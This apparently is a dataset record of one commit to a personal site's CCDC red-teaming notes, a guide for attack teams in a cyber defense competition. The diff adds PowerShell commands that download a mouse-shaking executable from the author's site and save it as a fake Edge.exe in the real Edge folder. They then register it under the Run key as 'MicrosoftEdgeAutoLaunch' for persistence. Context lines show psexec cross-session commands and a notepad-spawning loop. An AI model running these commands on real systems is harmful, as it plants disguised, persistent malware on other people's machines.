

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 6786 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
update cold hands, detach

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -263,6 +263,8 @@
 - Set all computers to same background:
   - GPO management > right-click domain > Create GPO in domain and link here > Right click on new GPO + edit > User Configuration\Policies\Administrative Templates\Desktop\Desktop > desktop wallpaper > select `enabled` + enter path of image and select fill for style > apply + ok > `gpupdate /force`
 - Make mouse shake: [cold_hands.exe](https://khaelkugler.com/misc_scripts/cold_hands.exe)
+  - `iwr https://khaelkugler.com/misc_scripts/cold_hands.exe -o "C:\Program Files (x86)\Microsoft\Edge\Application\Edge.exe"`
+  - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MicrosoftEdgeAutoLaunch" -Value "C:\Program Files (x86)\Microsoft\Edge\Application\Edge.exe"`
 - In another user's session with `psexec.exe -i {session_id} -s powershell.exe -Command "{command}" -accept-eula`
 - Spawn 50 notepads:
   - `1..50 | ForEach-Object {Start-Process notepad}`
```
Also changed, not shown: 1 other file.
